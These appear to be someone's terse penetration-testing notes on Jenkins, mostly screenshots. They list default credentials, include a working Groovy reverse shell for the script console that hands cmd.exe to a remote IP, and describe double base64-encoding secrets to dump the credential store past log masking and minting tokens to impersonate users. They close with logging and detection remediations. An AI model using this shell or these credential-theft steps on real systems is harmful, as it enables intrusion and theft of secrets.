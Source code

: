 
The default user credentials are admin and password.

/var/lib/jenkins home dir?

jenkins wp script console uses groovy - groovy revsh.groovy
```groovy
String host="10.18.21.236";
int port=443;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![[Images/Pasted image 20240606170047.png]]

---
![[Images/Pasted image 20250620222710.png]]
![[Images/Pasted image 20250620222749.png]]
![[Images/Pasted image 20250620222826.png]]
![[Images/Pasted image 20250620222915.png]]
..
![[Images/Pasted image 20250620222947.png]]
![[Images/Pasted image 20250620222958.png]]

![[Images/Pasted image 20250620223026.png]]
![[Images/Pasted image 20250620223100.png]]

![[Images/Pasted image 20250620223114.png]]

plaintext creds in github common

global creds store
![[Images/Pasted image 20250620223201.png]]
![[Images/Pasted image 20250620223224.png]]

create new project
use secret te
![[Images/Pasted image 20250620223311.png]]
![[Images/Pasted image 20250620223328.png]]

![[Images/Pasted image 20250620223347.png]]

double base64 encoding to trick jenkins (won't show clear text paswd in logs)

![[Images/Pasted image 20250620223452.png]]

![[Images/Pasted image 20250620223530.png]]
base 64 decode in browser - nice trick

can now log in as admin, go to script console
![[Images/Pasted image 20250620223803.png]]
![[Images/Pasted image 20250620223908.png]]

add token for yourself (or other user, to impersonate)
![[Images/Pasted image 20250620224024.png]]
![[Images/Pasted image 20250620224104.png]]

remediations, jenkins logger

![[Images/Pasted image 20250620224317.png]]
![[Images/Pasted image 20250620224403.png]]

system log, add log recorder
![[Images/Pasted image 20250620224445.png]]
![[Images/Pasted image 20250620224559.png]]
came from script console

can also build your own plugin
![[Images/Pasted image 20250620224734.png]]

Also a detection toolkit plugin exists
![[Images/Pasted image 20250620224810.png]]

![[Images/Pasted image 20250620225141.png]]






